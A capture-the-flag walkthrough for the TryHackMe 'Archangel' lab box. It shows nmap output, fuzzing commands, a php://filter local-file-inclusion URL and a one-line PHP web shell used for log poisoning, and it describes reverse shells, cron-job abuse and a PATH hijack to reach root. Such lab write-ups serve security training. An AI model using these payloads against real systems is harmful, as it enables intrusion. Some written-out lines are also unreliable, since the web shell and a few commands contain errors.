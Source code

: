 In this walkthrough, we'll go over a challenge (easy) level box called ***Archangel*** on [TryHackMe](https://tryhackme.com/room/archangel) 

![Archangel](archangel.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.7.126 --open
```
It looks like the ports 22 and 80 are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 13:37 EDT
Nmap scan report for mafialive.thm (10.10.7.126)
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f:1d:2c:9d:6c:a4:0e:46:40:50:6f:ed:cf:1c:f3:8c (RSA)
|   256 63:73:27:c7:61:04:25:6a:08:70:7a:36:b2:f2:84:0d (ECDSA)
|_  256 b6:4e:d2:9c:37:85:d6:76:53:e8:c4:e0:48:1c:ae:6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/test.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
```
When we visit the webpage, we can see that there is another domain:
![Archangel Index](aa-index-html.png)

Let's add that to the "/etc/hosts" file. Upon visiting the site, we can see the first flag. However, in this tutorial I'll be focusing on initial foothold and privilege escalation.

![Archangel New Domain](aa-new-domain.png)

We can run dirsearch on this new website `rsearch -u http://mafialive.thm/ -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/we/wordlists/dirb/big.txt`:
![Archangel Dirsearch](aa-new-domain-dirsearch.png)

We then check "robots.txt" and find another page "test.php" also dirsearch found that page:

![Archangel Test PHP](aa-new-domain-test-php.png)

After visiting http://mafialive.thm/test.php, we can see that the page is executing PHP:
![Archangel Test PHP exe](aa-test-php.png)
![Archangel Click](aa-click-button.png)

I use `php://filter/convert.base64-encode/resource=` function to obtain the content of test.php
`http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php`
![Archangel PHP Filter](aa-php-filter.png)

I then decode the encoded string and find the content of the test php file:
![Archangel Decode](aa-decode-test-php.png)

We would need to use "/var/www/html/development_testing" in the command so we can now pursue the LFI attack vector. We can fuzz the "test.php" for LFI with ffuf
`ffuf -w /usr/share/wfuzz/wordlist/vulns/dirTraversal-nix.txt -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/FUZZ -fs 286,310 -t 100`:
![Archangel ffuf](aa-ffuf-LFI.png)

I try the first payload in BurpSuite to display the output:
![Archangel Passwd](aa-etc-passwd.png)

We can inspect "/var/log/apache2/access.log" file:
![Archangel Apache2](aa-apache2-log.png)

### Poisoning a file for RCE via LFI
We can now pursue an RCE via poisoning "/var/log/apache2/error.log":
```php
<?php passthrough($GET['cmd']); ?>
```
![Archangel Poison](aa-posioning.png)

After that we are able to run "ls -la" command:
![Archangel ls](aa-posioning-ls.png)
![Archangel nc](aa-posioning-nc.png)

I downloaded php-revershell from pentestmonkey and transferred it to the target machine with wget:
![Archangel Transfer PHP Shell](aa-transfer-php-shell.png)
![Archangel Wget](aa-wget.png)
![Archangel PHP Reverse Shell](aa-php-revshell.png)
![Archangel Initial Foothold](aa-initial-foothold.png)

#### Lateral Movement
We can first look at "/etc/crontab" and it shows that there is a cronjob running by archangel:
![Archangel Crontab](aa-crontab.png)

Since we have rights to edit the file, we can run a python revshell:
![Archangel SH](aa-helloworld-sh.png)
![Archangel Lateral Movement](aa-lateral-movement.png)

We now have a shell as archangel:

![Archangel User](aa-archangel-user.png)

In the archangle's home folder there is an exe called backup so let's create a file and made it executable:
![Archangel CP](aa-create-cp.png)

We can now add "/home/archange/secret" to the PATH variable and run the backup binary file:
![Archangel Root](aa-root-txt.png)

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
